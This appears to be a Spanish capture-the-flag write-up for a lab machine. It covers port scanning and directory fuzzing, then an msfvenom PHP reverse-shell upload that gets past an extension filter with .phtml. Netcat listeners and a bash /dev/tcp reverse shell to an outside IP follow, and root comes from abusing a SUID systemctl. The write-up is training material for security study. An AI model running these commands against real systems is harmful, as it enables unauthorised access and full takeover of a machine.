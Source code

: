
Empezamos con un reconocimiento básico de la red con [[NMAP]]
`nmap -p- --open -sSCV  --min-rate 5000 -n -Pn 10.10.194.239 -oN ScanPorts.txt`

Encontramos abiertos los puertos `21 FTP`, `22 SSH`, `139 SMB`, `445 SMB`, `3128 Proxy`y `3333 HTTP`

En el puerto `3333` hay un servicio Apache levantado navegamos a el a través del navegador, vamos ha hacer fuzzing usando primero [[DIRBUSTER]]

Encontramos un directorio llamado `/internal` que nos permite subir archivos, vamos a cargar una reverse Shell con extensión `.php` por si nos deja ejecutarla.
Creamos el archivo llamado `shell.php` con [[MSFVENOM]]
`msfvenom -p php/reverse_php LHOST=<IP_local> LPORT=443 raw > shell.php`

La extensión `.php` no esta permitida, vamos a probar con `.phtml`, con esta extension si que nos deja.
También con [[DIRBUSTER]] hemos encontrado la ruta donde se suben los archivos en `/internal/uploads` navegamos a el.

Nos ponemos en escucha con [[NETCAT]] y ejecutamos el archivo
`nc -lvnp 443`

Obtenemos la conexión la aseguramos con otro [[NETCAT]]
`nc -lvnp 444`

Y en el primero nos pasamos la conexión al segundo
`bash -c "sh -i >& /dev/tcp/10.8.28.111/444 0>&1"`

Ahora vamos a hacer [[01. Tratamiento de la TTY]] para trabajar mas cómodamente.
Una vez hecho el tratamiento vamos a buscar por los directorios para ver que información relevante encontramos.

En el directorio `/home` encontramos que existe un usuario `bill` en el esta la primera flag.

Para la escalada de privilegios probamos con `sudo -l` pero no conseguimos ningún resultado así que buscaremos por SUID.
`find / -perm -4000 2>/dev/null`

Encontramos que `/bin/systemctl` se puede explotar así que navegamos a GTFobins para ver su explotación.

Para la escalada de privilegios hay que ejecutar el siguiente comando.
```` shell
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF

````

Una vez ejecutado usaremos `bash -p` y habremos obtenido una bash como root.
